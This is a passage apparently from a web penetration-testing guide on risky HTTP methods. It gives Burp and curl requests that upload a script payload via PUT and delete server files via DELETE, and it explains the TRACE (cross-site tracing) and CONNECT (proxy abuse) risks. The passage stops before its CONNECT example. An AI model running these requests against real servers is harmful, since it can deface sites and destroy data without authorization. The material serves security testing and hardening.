 ```
OPTIONS /uploads HTTP/1.1
Host: example.org
```

We obtained as response:

```
HTTP/1.1 200 OK
Date: ....
....
Allow: OPTIONS,GET,HEAD,POST,PUT,DELETE,TRACE,PROPPATCH,COPY,MOVE,LOCK
```

Then, we can try to upload a file by using Burpsuite. Typical payload:

```
PUT /test.html HTTP/1.1
Host: example.org
Content-Length: 25

<script>alert(1)</script>
```

Try to upload a file by using curl. Typical payload:

```bash
curl https://example.org --upload-file test.html
curl -X PUT https://example.org/test.html -d "<script>alert(1)</script>"
```

### DELETE

Try to delete a file by using Burpsuite. Typical payload:

```
DELETE /uploads/file1.pdf HTTP/1.1
Host: example.org
```

Try to delete a file by using curl. Typical payload:

```bash
curl -X DELETE https://example.org/uploads/file1.pdf
```

### TRACE

The `TRACE` method (or Microsoft’s equivalent `TRACK` method) causes the server to echo back the contents of the request. This led to a vulnerability called Cross-Site Tracing (XST), which could be used to access cookies that had the `HttpOnly` flag set. The `TRACE` method has been blocked in all browsers and plugins for many years; as such, this issue is no longer exploitable. However, it may still be flagged by automated scanning tools, and the `TRACE` method being enabled on a web server suggests that is has not been properly hardened.

### CONNECT

The `CONNECT` method causes the web server to open a TCP connection to another system, and then pass traffic from the client to that system. This could allow an attacker to proxy traffic through the server, in order to hide their source address, access internal systems or access services that are bound to localhost. An example of a `CONNECT` request is shown below:
